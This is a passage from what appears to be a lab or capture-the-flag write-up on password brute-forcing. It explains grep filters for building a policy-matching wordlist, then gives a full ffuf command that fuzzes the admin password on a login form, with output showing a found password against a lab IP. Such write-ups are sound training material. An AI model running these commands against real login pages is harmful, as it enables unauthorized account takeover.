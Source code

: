 ```ad-important
    
    - **Fix**: Use `^.{10,}$` to ensure the **entire password** is ≥10 characters.
        

---

### Key Notes:

1. **Order Matters**:  
    The pipeline processes filters sequentially. If a password fails any condition, it gets dropped early, improving efficiency.
    
2. **POSIX vs Simple Regex**:  
    `[[:upper:]]` is more reliable than `[A-Z]` because it handles non-English characters and locale settings.
    
3. **Length Check Issue**:  
    The command `.{10}` may allow passwords longer than 10 characters but doesn't explicitly enforce a **minimum** length for the entire password.
    
    - **Better Practice**: Replace with `grep -E '^.{10,}$'` to ensure the entire line (password) is ≥10 characters.
```

Now, we can use ffuf:

```
ffuf -w custom_wordlist.txt -u http://IP:PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -ic -c -t 200
```

We get the following output:

```
ffuf -w custom_wordlist.txt -u http://94.237.55.96:36280/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.96:36280/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/custom_wordlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid username
________________________________________________

Ramirez120992           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 306ms]
```

